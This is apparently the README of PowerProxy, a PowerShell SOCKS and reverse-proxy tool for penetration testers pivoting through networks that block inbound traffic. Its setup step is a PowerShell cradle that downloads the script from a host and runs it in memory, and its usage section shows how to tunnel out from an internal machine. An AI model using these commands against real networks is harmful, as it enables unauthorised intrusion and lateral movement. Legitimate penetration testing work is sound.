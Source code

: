 # PowerProxy
PowerShell SOCKS proxy with reverse proxy capabilities.

PowerProxy is written with penetration testers in mind. Reverse proxy functionality is a priority, for traversing networks that block inbound connections. Reverse proxy connections are encrypted by default. Username/Password authentication is supported for Socks 5 connections.

## Setup
Import the script:

```powershell
iex (new-object net.webclient).downloadstring("http://192.168.0.22/PowerProxy.ps1") 
# OR
Import-Module \\192.168.0.22\Public\PowerProxy.ps1
```

reverse_proxy_handler.py can create temporary SSL certs, which requires OpenSSL. If OpenSSL isn't installed on your machine (it is on most Linux/Unix-based systems), provide your own cert or use the *--no-encrypt* option.

## Usage

For detailed usage, check out PowerProxy's help, or use *./reverse_proxy_handler.py --help*
### **Run a reverse proxy**
On local machine, start the handler:
```bash
# Listen for reverse proxies on port 8080. Clients connect to port 1080
./reverse_proxy_handler.py -p 8080 --client-port 1080
```

In PowerShell:
```powershell
Start-ReverseSocksProxy 172.1.1.20 -Port 8080
```
Proxy clients can treat the server created by reverse_proxy_handler.py as if it were the actual SOCKS server:
```bash
curl --socks4 127.0.0.1:1080 http://10.10.2.69/
```

### **Run a traditional SOCKS server** 
```powershell
Start-SocksProxy 172.10.2.20 -Port 9050
```

### Require authentication
Use PSCredential objects to require a username and password:
```powershell
# Create the credential
$Password = ConvertTo-SecureString -AsPlaintext -Force "Passw0rd123"
$Cred = New-Object System.Management.Automation.PSCredential ("ProxyUser", $Password)

Start-ReverseSocksProxy -Credential $Cred -Address 10.10.10.24 -Verbose
```

## Limitations

- At the moment, only CONNECT requests are supported. BIND support is a goal, if practical.
- GSSAPI authentication is not supported.
- reverse_proxy_handler.py is only tested on UNIX-based machines, and probably doesn't work on Windows.
